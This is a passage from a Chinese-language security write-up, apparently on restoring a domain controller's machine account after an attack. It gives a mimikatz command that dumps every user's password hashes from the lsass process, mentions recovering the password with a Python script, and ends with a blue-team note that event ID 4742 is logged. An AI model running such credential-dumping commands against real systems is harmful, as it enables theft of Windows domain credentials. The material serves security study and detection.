 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptic0Is2DgtBCSLF7vczlTOfERgxzkUL5uq3rgicnB1ATOEeIK4lP6jtYQ/640?wx_fmt=png&from=appmsg "")  
### 恢复方式2：mimikatz  
- 从lsass进程里抓取系统所有用户的Hash，然后找到域控机器账号的原始哈希  
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptaOnEK9IHjaWBmLBME9HsuBQMtLqZmia4vKUnTicA8rKG4jlzMnYsVREA/640?wx_fmt=png&from=appmsg "")  
- 结合找到hash，通过python脚本恢复密码  
# 四、拓展：蓝队监测注意事项  
- 该攻击成功后，在域控的事件查看器上会生成一个4742的安全日志  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptenJKjw9gy4cL6alrJJxdsbl2WBeqXe9iaJX41jkVTMWu4CRQ8Zh8SZA/640?wx_fmt=png&from=appmsg "")  
  
  
